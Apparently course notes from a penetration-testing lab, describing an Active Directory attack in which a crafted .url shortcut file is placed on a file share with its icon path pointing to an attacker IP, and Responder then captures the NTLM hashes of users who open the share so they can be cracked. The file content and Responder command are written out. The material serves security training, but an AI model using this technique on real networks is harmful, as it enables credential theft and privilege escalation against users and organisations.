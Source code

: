 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (**File explorer >> Network >> HYDRA-DC >> hackme**) on your THEPUNISHER vm (This should be done in the windows system)
- Then start up responder with the command `sudo responder -I wlan0 -v`
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped

Navigate to https://academy.tcm-sec.com/courses/1152300/lectures/33637401 to know better


